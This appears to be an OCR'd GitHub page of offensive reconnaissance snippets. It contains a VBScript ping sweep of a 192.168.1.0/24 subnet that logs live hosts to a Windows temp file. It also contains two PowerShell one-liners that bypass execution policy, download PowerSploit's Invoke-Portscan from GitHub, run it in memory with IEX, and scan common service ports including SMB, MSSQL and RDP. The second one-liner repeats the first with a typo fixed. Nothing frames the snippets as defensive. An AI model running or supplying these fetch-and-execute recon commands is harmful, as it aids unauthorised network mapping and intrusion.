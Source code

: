 ```

	strSubNet = "192.168.1."
	Set objFSO= CreateObject("Scripting.FileSystemObject")
	Set objTS = objfso.CreateTextFile("C:\Windows\Temp\Result.txt")
	For i = 1 To 254
	strComputer = strSubNet & i
	blnResult = Ping(strComputer)
	If blnResult = True Then
	objTS.WriteLine strComputer & " is alived ! :) "
	End If
	 Next
	objTS.Close
	WScript.Echo "All Ping Scan , All Done ! :) "
	Function Ping(strComputer)
	Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
	Set colItems = objWMIService.ExecQuery("Select * From Win32_PingStatus Where Address='" & strComputer & "'")
	For Each objItem In colItems
	Select case objItem.StatusCode
	Case 0
	Ping = True
	Case Else
	Ping = False
	End select
	Exit For
	Next
	End Function

```

```
	powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadStrin('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 192.168.1.0/24 -T 4 -ports '445,1433,8080,3389,80' -oA c:\windows\temp\res.txt"

```

```

	powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 192.168.1.0/24 -T 4 -ports '445,1433,8080,3389,80' -oA c:\windows\temp\res.txt"
```

